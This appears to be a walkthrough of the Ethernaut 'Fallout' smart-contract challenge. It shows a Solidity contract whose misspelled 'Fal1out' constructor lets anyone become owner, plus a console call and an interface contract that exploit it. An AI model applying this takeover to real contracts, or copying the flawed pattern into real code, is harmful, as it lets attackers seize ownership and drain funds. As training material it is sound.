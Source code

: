 # Fallout Challenge: 

## The goal of this challenge is to claim the ownership of the contract

Smart Contract: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

After analayzing the contract we can tell that the owner is only changeable in the Fal1out function.

To give some context, In solidity 0.6 constructors naming used to be similar to the name of the contract and that way solidity would treat it as a constructor but if we were to pay some attention here it turns out the the function is spelled F-a-l-1-o-u-t not F-a-l-l-o-u-t which means that this will be treated as just another payable function.

So there's two ways of hacking this smart contract.

1) Simply just call the Fal1out function in the console: 

```
await contract.Fal1out({ value: "100" })
```

Now if you were to check the owner of the contract it would show your wallet address: 
```
await contract.owner()
```

2) The second approach would be to create another file and simply just create an interface of the contract and call the Fal1out function from there

```
// SPDX-License-Identifier: MIT

interface Fallout {

    function Fal1out() external payable;
}
```

After calling this function the ownership would be transferred to you.